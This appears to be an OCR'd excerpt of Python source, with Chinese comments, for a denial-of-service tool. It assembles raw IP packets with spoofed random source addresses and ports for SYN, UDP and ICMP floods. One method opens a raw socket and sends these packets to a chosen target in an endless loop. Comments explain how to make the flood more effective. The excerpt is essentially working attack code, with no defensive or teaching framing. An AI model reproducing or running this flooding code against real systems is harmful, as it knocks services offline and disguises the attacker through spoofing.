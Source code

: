 ```python
        ip_header_checksum = self.calc_checksum(ip_header)
        # 计算得到校检和之后，再次组装，得到真正的IP头部
        ip_header = struct.pack("!BBHHHBBH4s4s", ip_version_and_lenght, ip_tos, ip_total_lenght, ip_identitication, ip_flags_and_frag, ip_ttl, ip_protocol, ip_header_checksum,ip_source_addr, ip_dest_addr)
        print(f"ip header is {binascii.b2a_hex(ip_header)}")

        return ip_header

    # 此函数用于生成要发送的ip数据包
    def gen_dos_ip_packet(self,transport_layer_protocol):
        # 源IP地址；syn攻击，所以随机生成
        source_addr = f"{random.randint(0,240)}.{random.randint(0,240)}.{random.randint(0,240)}.{random.randint(0,240)}"
        # source_addr = "10.10.6.91"
        # 源端口；syn攻击，所以随机生成
        source_port = random.randint(10000, 60000)
        # source_port = 12345
        # 根据设定的dos类型，生成ip协议载荷
        if transport_layer_protocol == socket.IPPROTO_TCP:
            tcp_header = self.gen_tcp_header(source_addr, dest_addr, source_port, dest_port)
            transport_segment = tcp_header
        elif transport_layer_protocol == socket.IPPROTO_UDP:
            # udp数据包携带的数据，数据越长目标主机接收数据包所用资源就越多，攻击效果就越好
            # 不过udp中这些数据都不返回而icmp中会原样返回，所以就效果上应该是icmp攻击比udp好一点
            udp_data = "abcdefghijklmnopqrstuvwxyz"
            udp_header = self.gen_udp_header(source_addr,dest_addr,source_port,dest_port,udp_data)
            transport_segment = udp_header + udp_data.encode()
        elif transport_layer_protocol == socket.IPPROTO_ICMP:
            icmp_header = self.gen_icmp_header()
            transport_segment = icmp_header
        # 整个ip协议载荷的长度
        transport_segment_size = len(transport_segment)
        # 调用gen_ip_header()获取ip头
        ip_header = dos_tool_obj.gen_ip_header(source_addr, dest_addr, transport_segment_size, transport_layer_protocol)
        # 组合ip头部和ip载荷，构成完整ip数据包
        dos_ip_packet = ip_header + transport_segment

        return dos_ip_packet


    def exec_dos_attack(self,dest_addr,dest_port,dos_type):
        dos_type = dos_type.lower()
        if dos_type == 'syn':
            transport_layer_protocol = socket.IPPROTO_TCP
        elif dos_type == 'udp':
            transport_layer_protocol = socket.IPPROTO_UDP
        elif dos_type == 'icmp':
            transport_layer_protocol = socket.IPPROTO_ICMP
        # 构造socket
        dos_socket = socket.socket(socket.AF_INET, socket.SOCK_RAW, transport_layer_protocol)
        dos_socket.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
        # 不断生成和发送数据包
        while True:
            ip_packet = self.gen_dos_ip_packet(transport_layer_protocol)
            dos_socket.sendto(ip_packet, (dest_addr, dest_port))
            print(f"packet send success")
            # 如果不是一直发送，而是发送一个syn包后接收返回数据进行分析，那就是syn扫描
            # 此时接收到的是ip层及之后各层的数据；如“450000285c3740004006bdce0a0a065b0a0a065c846c0016324322fe07ff0b165010402962080000”
            # return_data = dos_socket.recvfrom(1024)[0]
            # print(f"receive return data: {binascii.b2a_hex(return_data)}")
```